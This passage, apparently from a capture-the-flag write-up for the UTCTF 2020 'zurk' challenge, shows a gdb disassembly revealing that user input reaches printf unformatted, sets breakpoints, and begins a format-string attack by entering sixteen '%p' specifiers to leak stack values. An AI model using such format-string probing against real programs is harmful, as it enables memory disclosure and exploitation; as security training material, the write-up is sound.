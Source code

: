 ```
   0x000000000040071a <+85>:	mov    edi,0x4008c0
   0x000000000040071f <+90>:	call   0x400520 <puts@plt>
   0x0000000000400724 <+95>:	mov    edi,0x400858
   0x0000000000400729 <+100>:	call   0x400520 <puts@plt>
   0x000000000040072e <+105>:	jmp    0x400776 <do_move+177>
   0x0000000000400730 <+107>:	lea    rax,[rbp-0x40]
   0x0000000000400734 <+111>:	mov    esi,0x4008f8
   0x0000000000400739 <+116>:	mov    rdi,rax
   0x000000000040073c <+119>:	call   0x400570 <strcmp@plt>
   0x0000000000400741 <+124>:	test   eax,eax
   0x0000000000400743 <+126>:	jne    0x40075b <do_move+150>
   0x0000000000400745 <+128>:	mov    edi,0x400900
   0x000000000040074a <+133>:	call   0x400520 <puts@plt>
   0x000000000040074f <+138>:	mov    edi,0x400858
   0x0000000000400754 <+143>:	call   0x400520 <puts@plt>
   0x0000000000400759 <+148>:	jmp    0x400776 <do_move+177>
   0x000000000040075b <+150>:	lea    rax,[rbp-0x40]
   0x000000000040075f <+154>:	mov    rdi,rax
   0x0000000000400762 <+157>:	mov    eax,0x0
   0x0000000000400767 <+162>:	call   0x400530 <printf@plt>
   0x000000000040076c <+167>:	mov    edi,0x400938
   0x0000000000400771 <+172>:	call   0x400520 <puts@plt>
   0x0000000000400776 <+177>:	nop
   0x0000000000400777 <+178>:	leave
   0x0000000000400778 <+179>:	ret
End of assembler dump.
```

Set breakpoints at `printf` and the `puts` below it:

```
gef➤  b *do_move+162
Breakpoint 1 at 0x400767
gef➤  b *do_move+172
Breakpoint 2 at 0x400771
```

Now run it:

```
gef➤  run
Starting program: /pwd/datajerk/utctf2020/zurk/zurk
Welcome to the game of Zurk!
You awaken in a cave dimly lit by torches.
The cave two tunnels, one going east and the other going west.
What would you like to do?
```

Enter 16 `%p` delimited with spaces; that will be 48 chars--there isn't room for 17.

```
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```
